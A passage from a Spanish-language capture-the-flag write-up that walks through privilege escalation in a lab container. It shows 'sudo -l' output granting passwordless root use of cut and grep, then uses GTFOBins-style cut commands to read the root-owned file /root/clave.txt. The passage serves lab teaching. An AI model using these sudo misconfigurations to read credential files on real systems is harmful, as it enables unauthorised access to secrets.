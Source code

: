 Bien, nos han dejado una pista de dónde se encuentra la posible contraseña del **usuario Root**.

Veamos si nuestro usuario tiene algún privilegio que nos ayude:
```bash
www-data@a34889d3b818:/$ sudo -l
Matching Defaults entries for www-data on a34889d3b818:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on a34889d3b818:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```
Genial, podemos usar los comandos **cut y grep** con privilegios de **Root**.

Y al investigar en la **guía de GTFOBins**, encontraremos las formas en que podemos utilizar ambos comandos para leer archivos con privilegios.

Primero, el comando **cut**:
* <a href="https://gtfobins.github.io/gtfobins/cut/" target="_blank">GTFOBins: cut</a>

Utilizaremos estos comandos:

<p align="center">
<img src="/assets/images/THL-writeup-hiddenDocker/Captura20.png">
</p>

Y los aplicamos:
```bash
www-data@a34889d3b818:/$ LFILE=/root/clave.txt
www-data@a34889d3b818:/$ sudo cut -d "" -f1 "$LFILE"
...
```
Excelente, si parece ser una contraseña.

Ahora el comando **grep**:
* <a href="https://gtfobins.github.io/gtfobins/grep/" target="_blank">GTFOBins: grep</a>

Son casi los mismos comandos:
<p align="center">
<img src="/assets/images/THL-writeup-hiddenDocker/Captura21.png">
</p>
